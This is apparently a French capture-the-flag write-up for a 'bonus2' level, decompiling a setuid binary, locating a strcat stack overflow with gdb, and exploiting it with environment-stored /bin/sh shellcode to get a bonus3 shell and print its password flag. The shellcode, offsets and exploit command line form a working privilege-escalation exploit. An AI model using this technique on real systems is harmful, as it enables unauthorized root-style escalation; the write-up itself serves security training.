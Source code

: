 Je commence par découvrir qui je suis, où je suis, et qu'est-ce qui est à ma disposition :

```bash
$ id && pwd && ls -la
uid=2012(bonus2) gid=2012(bonus2) groups=2012(bonus2),100(users)
/home/user/bonus2
total 17
dr-xr-x---+ 1 bonus2 bonus2   80 Mar  6  2016 .
dr-x--x--x  1 root   root    340 Sep 23  2015 ..
-rw-r--r--  1 bonus2 bonus2  220 Apr  3  2012 .bash_logout
-rw-r--r--  1 bonus2 bonus2 3530 Sep 23  2015 .bashrc
-rwsr-s---+ 1 bonus3 users  5664 Mar  6  2016 bonus2
-rw-r--r--+ 1 bonus2 bonus2   65 Sep 23  2015 .pass
-rw-r--r--  1 bonus2 bonus2  675 Apr  3  2012 .profile
```

Je tente de lancer le binaire `bonus2` :

```bash
$ ./bonus2
$ ./bonus2 dab
$ ./bonus2 dab itude
Hello dab
$ ./bonus2 dab itude je
```

Sans succès, je me penche dès lors sur la décompilation.

J'utilise [Dogbolt](https://dogbolt.org/?id=2e8bb7ea-1f7b-4c7b-a01b-0ff9afb4fc75#BinaryNinja=114&Reko=89&RetDec=19) afin de décompiler le binaire du `bonus2`, qui a des protections contre la décompilation, mais certains décompilateurs réussissent.

Je recoupe la sortie de `RetDec` avec l'ASM et en extrait le probable code suivant :

```c
int lang = 0;

void greetuser(char *string)
{
    char buffer[64];

    switch (lang)
    {
    case 0:
        strcpy(buffer, "Hello ");
        break;

    case 1:
        strcpy(buffer, "Hyvää päivää ");
        break;

    case 2:
        strcpy(buffer, "Goedemiddag! ");
        break;
    }

    strcat(buffer, string); // <----------------4 the new buffer of 64 appends our 72 bytes buffer so overflows, can be used to Ret2Libc
    puts(buffer);
}

int main(int argc, char **argv)
{
    char buffer[76]; // <-----------------------1 76 bytes buffer declared
    char *ret;

    if (argc != 3)
        return 1;

    memset(buffer, 0, 76);
    strncpy(buffer, argv[1], 40); // <----------2 filled with 40
    strncpy(buffer + 40, argv[2], 32); // <-----3 then 32 bytes (72, not overflown yet)

    ret = getenv("LANG");
    if (ret != 0)
    {
        if (memcmp(ret, "fi", 2) == 0)
            language = 1;
        else if (memcmp(ret, "nl", 2) == 0)
            language = 2;
    }
    greetuser(buffer);
}
```

En analysant le code ici, je vois un buffer, et me penche donc dessus comme source de vulnérabilité.
J'observe qu'il est d'abord `memset()` à 0 sur 76 bytes, puis se voit inséré 40 bytes du premier argument, puis 32 du second.

Il est ensuité passé à `greetuser()` qui elle va venir `strcat()` le message à notre buffer, ce qui aura pour conséquence de l'overflow.

Je vais utiliser le binaire avec la langue `nl` en changeant la variable env. `LANG` afin que l'overflow soit plus important qu'en anglais. Je commence par trouver le padding nécessaire pour que le buffer overflow et ré-écrive sur l'adresse de retour de `greetuser()` avec `gdb` :

```h
$ gdb ./bonus2 -q
Reading symbols from /home/user/bonus2/bonus2...(no debugging symbols found)...done.
(gdb) disas greetuser
Dump of assembler code for function greetuser:
    ...
   0x08048517 <+147>:   call   0x8048370 <strcat@plt>
   0x0804851c <+152>:   lea    -0x48(%ebp),%eax
   0x0804851f <+155>:   mov    %eax,(%esp)
   0x08048522 <+158>:   call   0x8048390 <puts@plt>
   0x08048527 <+163>:   leave <--------------------- breakpoint avant de leave
   0x08048528 <+164>:   ret
End of assembler dump.

(gdb) b *greetuser+163
Breakpoint 1 at 0x8048527

(gdb) r dab itude
Starting program: /home/user/bonus2/bonus2 dab itude
Hello dab

Breakpoint 1, 0x08048527 in greetuser ()

(gdb) info registers
...
esp            0xbffff600       0xbffff600
ebp            0xbffff658       0xbffff658
...
```

Puis calcule la différence : `0xbffff600 - 0xbffff658 = 0x58 = 88` bytes.

Enfin, je soustrais également le décalage dans la stack de la déclaration du buffer, que l'on voit :

```h
(gdb) disas greetuser
Dump of assembler code for function greetuser:
   0x08048484 <+0>:     push   %ebp
   0x08048485 <+1>:     mov    %esp,%ebp
   0x08048487 <+3>:     sub    $0x58,%esp
   0x0804848a <+6>:     mov    0x8049988,%eax
   0x0804848f <+11>:    cmp    $0x1,%eax
   0x08048492 <+14>:    je     0x80484ba <greetuser+54>
   0x08048494 <+16>:    cmp    $0x2,%eax
   0x08048497 <+19>:    je     0x80484e9 <greetuser+101>
   0x08048499 <+21>:    test   %eax,%eax
   0x0804849b <+23>:    jne    0x804850a <greetuser+134>
   0x0804849d <+25>:    mov    $0x8048710,%edx
   0x080484a2 <+30>:    lea    -0x48(%ebp),%eax <-------------------------- ici
```

Je soustrais donc `0x58 - 0x48 = 0x10 = 16` bytes à 88, et trouve 72 bytes avant d'atteindre `ebp`. J'en rajoute 4 et me trouve donc à l'adresse de retour de `greetuser()`.

Je dois également considérer les 13 bytes ajouté par la string en `nl`, ce qui ajoutera 13 bytes au début de mon buffer.

Le buffer compromis ressemblera donc à :

```
13 bytes du message + 40 du premier arg + 32 du second = 85 bytes
```

Je soustrais donc 9 bytes du second arg afin d'atteindre 76 bytes, soit `13 + 40 + 23 = 76`.

Je vais donc tenter de construire un payload qui permettra d'exploiter `Ret2Shellcode`, de la même manière qu'au `bonus0`.
J'utilise le même [shellcode](https://shell-storm.org/shellcode/files/shellcode-827.html) : `\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80` et le stocke de la même manière dans une variable env. :

```bash
$ export BYE=$'\x90\x90\x90\x90\x90\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80'
```

Et emploie la même manière que `bonus0` pour trouver son adresse :

```h
$ gdb ./bonus2 -q
Reading symbols from /home/user/bonus2/bonus2...(no debugging symbols found)...done.

(gdb) b main
Breakpoint 1 at 0x804852f

(gdb) r
Starting program: /home/user/bonus2/bonus2

Breakpoint 1, 0x0804852f in main ()

(gdb) x/200s environ
0xbfffff14:      "LANG=nl"
0xbfffff1c:      "BYE=1\300Ph//shh/bin\211\343PS\211\341\260\v\315\200"
...

(gdb) x/100x 0xbfffff1c
0xbfffff1c:     0x42    0x59    0x45    0x3d    0x90    0x90    0x90    0x90
0xbfffff24:     0x90    0x31    0xc0    0x50    0x68    0x2f    0x2f    0x73 <-- début du shellcode
0xbfffff2c:     0x68    0x68    0x2f    0x62    0x69    0x6e    0x89    0xe3
0xbfffff34:     0x50    0x53    0x89    0xe1    0xb0    0x0b    0xcd    0x80
0xbfffff3c:     0x00    0x4c    0x49    0x4e    0x45    0x53    0x3d    0x35
0xbfffff44:     0x31    0x00    0x53    0x48    0x4c    0x56    0x4c    0x3d
0xbfffff4c:     0x34    0x00    0x48    0x4f    0x4d    0x45    0x3d    0x2f
0xbfffff54:     0x68    0x6f    0x6d    0x65    0x2f    0x75    0x73    0x65
0xbfffff5c:     0x72    0x2f    0x62    0x6f    0x6e    0x75    0x73    0x32
0xbfffff64:     0x00    0x4c    0x4f    0x47    0x4e    0x41    0x4d    0x45
0xbfffff6c:     0x3d    0x62    0x6f    0x6e    0x75    0x73    0x32    0x00
0xbfffff74:     0x53    0x53    0x48    0x5f    0x43    0x4f    0x4e    0x4e
0xbfffff7c:     0x45    0x43    0x54    0x49
```

Mon payload devrait donc ressembler à :

```h
"\x90" * 40 + "\x90" * 23 + "\xbf\xff\xff\x24"
^^^^^^^^^^^   ^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^
1er arg       2eme arg
```

Je l'essaye :

```bash
$ ./bonus2 `python -c 'print("\x90" * 40)'` `python -c 'print("\x90" * 23 + "\xbf\xff\xff\x24"[::-1])'`
Goedemiddag! ���������������������������������������������������������������$���
$ whoami
bonus3
$ cat /home/user/bonus3/.pass
71d449df0f960b36e0055eb58c14d0f5d0ddc0b35328d657f91cf0df15910587
$ exit
```





